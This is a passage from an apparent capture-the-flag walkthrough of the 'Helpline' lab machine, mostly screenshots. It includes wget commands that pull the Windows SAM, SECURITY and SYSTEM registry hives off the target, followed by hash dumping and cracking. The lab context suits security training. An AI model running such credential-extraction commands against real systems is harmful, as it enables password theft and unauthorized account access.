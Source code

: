 <a class="image-popup">
![1e59a17f.png](/assets/images/posts/helpline-htb-walkthrough/1e59a17f.png)
</a>

Once that's done, we can download the files to my attacking machine.

```
# wget http://10.10.10.132:8080/images/sam
# wget http://10.10.10.132:8080/images/security
# wget http://10.10.10.132:8080/images/system
```

It's dumping time!

<a class="image-popup">
![62da879b.png](/assets/images/posts/helpline-htb-walkthrough/62da879b.png)
</a>

### Pass-the-Hash is <s>Dead</s>

What do we do with the hashes. Well, we can always crack them.

<a class="image-popup">
![83bae8f2.png](/assets/images/posts/helpline-htb-walkthrough/83bae8f2.png)
</a>
